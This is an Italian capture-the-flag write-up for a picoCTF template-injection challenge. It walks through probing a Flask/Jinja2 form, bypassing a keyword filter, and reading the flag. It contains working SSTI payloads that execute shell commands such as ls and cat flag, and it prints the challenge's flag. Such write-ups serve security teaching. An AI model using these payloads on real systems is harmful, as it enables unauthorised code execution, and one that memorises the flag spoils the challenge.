



#### 🧩Descrizione

Sito che permette di pubblicare "annunci" tramite un form, con un riferimento esplicito nella descrizione all'uso di "template", indizio diretto verso una possibile [[SSTI]]

<p align="center">  </p>

#### 🔍Analisi / Ricognizione

Inviato un'espressione aritmetica nel campo di input per verificare se il motore di template valuta l'espressione:

```
{{7*7}}
```

Risultato: output `49` → confermata la presenza di [SSTI](https://claude.ai/cowork/Server-Side-Template-Injection-\(SSTI\).md), motore compatibile con sintassi Jinja2.

Primo tentativo di Remote Code Execution (RCE), bloccato:

```
{{ import('os').popen('ls').read() }}
```

Risultato: bloccato da un filtro lato server sulla keyword `import`.

<p align="center">  </p>

#### ⚙️Sfruttamento

Payload alternativo che raggiunge `__import__` tramite la catena di attributi built-in di Flask/Jinja2, senza usare la keyword `import` in modo diretto:

```
{{ request.application.globals.builtins.import('os').popen('ls').read() }}
```

Risultato: payload eseguito con successo, comando `ls` eseguito sul server → confermata RCE.

<p align="center">  </p>

Questi sono i file presenti nella directory di lavoro dell'applicazione sul server (la cartella dove gira `app.py`):

- `__pycache__` → cartella che Python crea automaticamente per salvare i file `.pyc` (bytecode compilato), usata per velocizzare le esecuzioni successive. Conferma che il backend è scritto in Python (coerente con Flask/Jinja2 che stavi già sfruttando).
- `app.py` → il file sorgente principale dell'applicazione Flask.
- `flag` → il file target che bisogna leggere.
- `requirements.txt` → il file con le dipendenze Python del progetto (es. `flask`, `jinja2`, ecc.), tipico di ogni progetto Python ben strutturato.

Lettura della flag:

```
{{ request.application.globals.builtins.import('os').popen('cat flag').read() 
}}
```

- `request` → oggetto HTTP disponibile nel template
- `.application` → istanza dell'app Flask
- `.globals` (`__globals__`) → variabili globali del modulo
- `.builtins` (`__builtins__`) → funzioni native Python (incluso `__import__`)
- `.import('os')` → importa il modulo `os` (bypassa la keyword `import` filtrata)
- `.popen('cat flag')` → esegue comando shell, apre lo stream di output
- `.read()` → legge l'output del comando

#### 🚩Flag

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_9451989d}

#### 💡Lezioni apprese

- Root cause: input utente concatenato direttamente nel template Jinja2 senza sandboxing, combinato con un filtro a blacklist incompleto che bloccava la chiamata diretta a `import()` ma non l'accesso alla stessa funzionalità tramite la catena `request.application.globals.builtins`.
- I filtri a blacklist su singole keyword sono facilmente aggirabili quando il linguaggio offre percorsi alternativi (introspezione, attributi dunder) per raggiungere la stessa funzionalità.
- Utile partire sempre dal probing più semplice (`{{7*7}}`) prima di lanciarsi su payload complessi.